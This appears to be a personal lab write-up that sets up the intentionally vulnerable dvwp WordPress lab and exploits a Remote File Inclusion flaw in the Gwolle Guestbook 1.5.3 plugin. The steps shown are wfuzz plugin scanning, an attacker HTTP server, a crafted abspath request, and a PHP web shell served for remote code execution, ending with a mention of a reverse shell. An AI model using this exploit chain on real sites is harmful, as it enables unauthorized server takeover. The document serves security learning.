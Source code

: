 # Definition
Something to do!!
## Installing and Preparing lab
I will use [dvwp docker lab](https://github.com/vavkamil/dvwp) to practice with this vulnerability.
```shell
git clone https://github.com/vavkamil/dvwp
cd dvwp
docker-compose up -d --build
```
___
Now, we must do initial WordPress configuration.
![[Pasted image 20230713161850.png]]
___
After, we have to import the RFI vulnerable plugin called **Gwolle v1.5.3**.
You can download this plugin and its version with this [link](https://downloads.wordpress.org/plugin/gwolle-gb.1.5.3.zip).
So, to import and enable this plugin we must grant privileges on www-data user inside the docker machine.
```shell
docker exec -it dvwp_wordpress_1 bash
```
___
```shell
chown www-data:www-data -R ./wp-content/
```
![[Pasted image 20230713163852.png]]
___
Then, if we see the exploit requirements, with *searchsploit -x php/webapps/38861.txt*, we can note that this exploit needs **allow_url_include** actived.
![[Pasted image 20230713164457.png]]
___
Then, we should do the following inside de docker machine.
![[Pasted image 20230713171733.png]]
___
And restart the docker machine.
```shell
docker restart dvwp_wordpress_1 
```
___
Finally, we are going to import that plugin.
![[Pasted image 20230713165148.png]]
___
# Attacking
Now that we have the docker machine with this vulnerability, we could first do a [[Wfuzz]] scanning to scan plugins.
```shell
wfuzz -c --hc=404 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://localhost:31337/FUZZ
```
Where:
- -c: Color format.
- --hc:404: hide 404 status code findings.
- -t 200: use 200 threads.
- -w <_WORD_LIST_PATH_>: we use wp-plugins.fuzz.txt word list to find out plugins.
- URL/FUZZ: */* because the word list doesn't contains */* and FUZZ to replace each line in word list.
___
![[Pasted image 20230713170531.png]]
___
After reading how the exploit works.
![[Pasted image 20230713170906.png]]
___
We can deploy a http server to retrieve connections from the victim.
```shell
sudo python3 -m http.server 80
```
___
And send request.
```url
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://172.17.0.1/
```
![[Pasted image 20230713171941.png]]
___
You can see that the GET request is trying to load some **/wp-load.php**. Let's use this try to do a RCE.
*wp-load.php* from attacker side.
```php
<?php
	system($_GET["cmd"]);
?>
```
![[Pasted image 20230713173006.png]]
___
Now you can use a Reverse Shell with this RFI.
![[Pasted image 20230713173241.png]]
___